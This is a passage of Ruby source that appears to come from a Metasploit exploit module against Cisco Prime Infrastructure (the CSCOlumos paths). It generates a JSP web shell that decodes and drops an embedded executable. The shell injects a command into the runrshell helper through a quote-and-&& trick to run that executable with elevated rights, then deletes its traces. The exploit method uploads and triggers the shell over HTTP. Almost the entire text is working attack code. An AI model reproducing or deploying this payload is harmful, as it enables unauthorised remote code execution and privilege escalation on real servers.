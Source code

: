 ```ruby
    Thread.sleep(200);
    |
    var_proc3 = Rex::Text.rand_text_alpha(rand(8) + 3)
    cleanup = %Q|
    Thread.sleep(200);
    Process #{var_proc3} = Runtime.getRuntime().exec("rm " + #{var_path} + " " + #{var_path2});
    |
    jsp = %Q|
    <%@page import="java.io.*"%>
    <%@page import="sun.misc.BASE64Decoder"%>
    <%
    try {
      String #{var_buf} = "#{base64_exe}";
      BASE64Decoder #{var_decoder} = new BASE64Decoder();
      byte[] #{var_raw} = #{var_decoder}.decodeBuffer(#{var_buf}.toString());
      File #{var_tmp} = File.createTempFile("#{native_payload_name}", ".bin");
      String #{var_path} = #{var_tmp}.getAbsolutePath();
      BufferedOutputStream #{var_ostream} =
        new BufferedOutputStream(new FileOutputStream(#{var_path}));
      #{var_ostream}.write(#{var_raw});
      #{var_ostream}.close();
      File #{var_tmp2} = File.createTempFile("#{native_payload_name}", ".sh");
      String #{var_path2} = #{var_tmp2}.getAbsolutePath();
      PrintWriter #{var_pstream} =
        new PrintWriter(new FileOutputStream(#{var_path2}));
      #{var_pstream}.println("!#/bin/sh");
      #{var_pstream}.println("/opt/CSCOlumos/bin/runrshell '\\" && " + #{var_path} + " #'");
      #{var_pstream}.close();
      #{chmod}
      Process #{var_proc2} = Runtime.getRuntime().exec(#{var_path2});
      #{cleanup}
    } catch (Exception e) {
    }
    %>
    |
    jsp = jsp.gsub(/\n/, '')
    jsp = jsp.gsub(/\t/, '')
    jsp = jsp.gsub(/\x0d\x0a/, "")
    jsp = jsp.gsub(/\x0a/, "")
    return jsp
  end
  def exploit
    jsp_payload = generate_jsp_payload
    jsp_name = upload_payload(jsp_payload)
    # we land in /opt/CSCOlumos, so we don't know the apache directory
    # as it changes between versions... so leave this commented for now
    # ... and try to find a good way to clean it later
    # register_files_for_cleanup(jsp_name)
    print_status("#{peer} - Executing payload...")
    send_request_cgi({
      'uri'    => normalize_uri(datastore['TARGETURI'], jsp_name),
      'method' => 'GET'
    })
    handler
  end
end
```
